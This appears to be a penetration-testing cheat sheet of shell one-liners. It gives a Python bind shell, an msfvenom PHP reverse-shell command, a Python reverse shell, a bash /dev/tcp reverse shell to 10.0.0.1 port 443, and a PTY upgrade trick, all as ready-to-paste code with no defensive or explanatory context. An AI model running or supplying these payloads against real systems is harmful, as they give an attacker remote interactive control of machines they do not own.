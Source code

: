 
## Bind Shells
```python
python -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",443));s.listen(5);c,a=s.accept();os.dup2(c.fileno(),0);os.dup2(c.fileno(),1);os.dup2(c.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

## Reverse Shells
Msfvenom - PHP
```bash
msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=443 -f raw -o shell.php
```
Python
```python
export RHOST="10.10.10.10"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/443 0>&1
```

## Upgrade to a PTY Shell
```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py
python /tmp/shell.py
```
